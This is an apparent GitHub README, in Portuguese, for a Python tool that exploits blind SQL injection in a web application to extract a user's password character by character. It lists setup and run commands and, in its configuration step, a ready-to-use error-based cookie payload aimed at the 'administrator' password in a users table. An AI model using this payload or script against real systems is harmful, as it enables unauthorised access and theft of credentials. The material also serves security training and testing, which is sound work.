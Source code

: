 # Blind SQL Injection Exploit

Este repositório contém um script Python para explorar vulnerabilidades de **Blind SQL Injection** em uma aplicação web. O script é projetado para descobrir senhas de usuários de forma incremental, testando caracteres um por um.

## 📋 Requisitos ##

- Python 3
- Biblioteca `requests` instalada (`pip install requests`)

## 🚀 Como Usar ##

1. **Clone o repositório:**
   ```bash
   git clone https://github.com/seu-usuario/sqli-exploit.git
   cd sqli-exploit
   
2. **Configure o exploit com os parametros de ataque**
-- Linha 97:
"Configurações do ataque<br>
url = "https://url.com"<br>
max_requests = 1000 -- Valor limite da requisição no pool<br>
status_check = 500 -- Status de retorno<br>
cookie_template = "'||(SELECT CASE WHEN SUBSTR(password,$1,1)='$2' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'" -- SQLi<br>
tamanho_senha = 20  # Defina o comprimento estimado da senha" -- Tamanho da senha. "

3. **Execute o exploit:**
   ```bash
   python3 fuzzer_for_blind_sqli.py
